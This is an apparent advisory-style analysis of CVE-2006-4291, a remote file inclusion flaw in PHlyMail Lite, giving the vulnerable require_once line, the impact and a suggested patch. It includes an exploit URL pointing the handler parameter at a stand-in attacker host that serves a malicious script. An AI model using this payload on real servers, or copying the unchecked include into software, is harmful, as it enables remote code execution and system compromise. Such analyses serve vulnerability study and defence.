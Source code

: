 Based on the provided content, here's an analysis of CVE-2006-4291:

**Root Cause of Vulnerability:**

The vulnerability stems from a lack of proper input sanitization in the `mod.listmail.php` file of PHlyMail Lite. Specifically, the `$_REQUEST['handler']` parameter is used directly in a `require_once` statement without validation. This allows an attacker to control the path of the included file.

**Weaknesses/Vulnerabilities Present:**

*   **Remote File Inclusion (RFI):** The primary vulnerability is an RFI, where an attacker can force the application to include a remote file.

**Impact of Exploitation:**

*   **Arbitrary Code Execution:** By including a malicious remote file, an attacker can execute arbitrary code on the server. This could lead to complete compromise of the system, including data theft, modification, or denial of service.

**Attack Vectors:**

*   **HTTP Request:** The attacker crafts a malicious HTTP request to `mod.listmail.php`, setting the `_PM_[path][handler]` parameter to a URL hosting the attacker's malicious script.

**Required Attacker Capabilities/Position:**

*   **Network Access:** The attacker needs network access to the vulnerable PHlyMail Lite server.
*   **Knowledge of vulnerable script:** Attacker needs knowledge that the `mod.listmail.php` file is vulnerable and the parameter name.

**Technical Details:**

The vulnerable code snippet is within `handlers/email/mod.listmail.php`:

```php
require_once($_PM_['path']['handler'].'/'.$_REQUEST['handler'].'/fs.php');
```

The exploit is triggered by crafting a URL like this:

```
http://www.site.com/[phlymail_path]/handlers/email/mod.listmail.php?_PM_[path][handler]=[http://www.myevilsite.com/evil_scripts.txt]
```

This causes the server to include the attacker's specified `evil_scripts.txt` file.

**Patch:**
The suggested fix is to add the following line to the beginning of the `handlers/email/mod.listmail.php` file:
```php
if (!defined('_IN_PHM_')) die();
```
This check will prevent direct execution of the script by forcing the script to be loaded from within PHlyMail Lite and mitigate RFI vulnerabilities.

The provided exploit-db entry contains more detail than the original CVE description.